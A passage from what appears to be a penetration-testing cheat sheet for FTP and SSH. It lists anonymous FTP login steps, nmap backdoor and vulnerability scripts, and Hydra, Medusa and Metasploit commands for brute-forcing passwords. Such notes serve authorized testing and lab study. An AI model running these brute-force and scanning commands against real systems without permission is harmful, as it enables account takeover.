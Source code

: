 {% tabs %}
{% tab title="Use" %}
```
ftp> get [target file] 
```
{% endtab %}

{% tab title="Anonymous Access" %}
```
# ftp [target] 
```

* Username: anonymous&#x20;
* Password: anything$ nmap --script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 $ip
{% endtab %}

{% tab title="Enumeration" %}
```
$ nmap --script=ftp-* -p 21 $ip
$ nmap --script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 $ip
```
{% endtab %}

{% tab title="Brute Force" %}
Hydra

* ```
  $ hydra -l user -P /usr/share/john/password.lst ftp://$ip:21
  ```

Metasploit

* ```
  $ msfconsole -q msf> search type:auxiliary login msf> use auxiliary/scanner/ftp/ftp_login
  ```
{% endtab %}
{% endtabs %}

## 22 - SSH&#x20;

{% tabs %}
{% tab title="Brute Force" %}
```
# medusa -M ssh -C /usr/share/wordlists/ssh.lst -H 22.txt -T 10| grep SUCCESS |tee medusa-results.txt 
# medusa -h  -u  -P /path/to/wordlist -M [telnet|ssh] 
# hydra -t 16 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV 10.10.47.138 ssh
```
{% endtab %}
{% endtabs %}

## 23 - Telnet
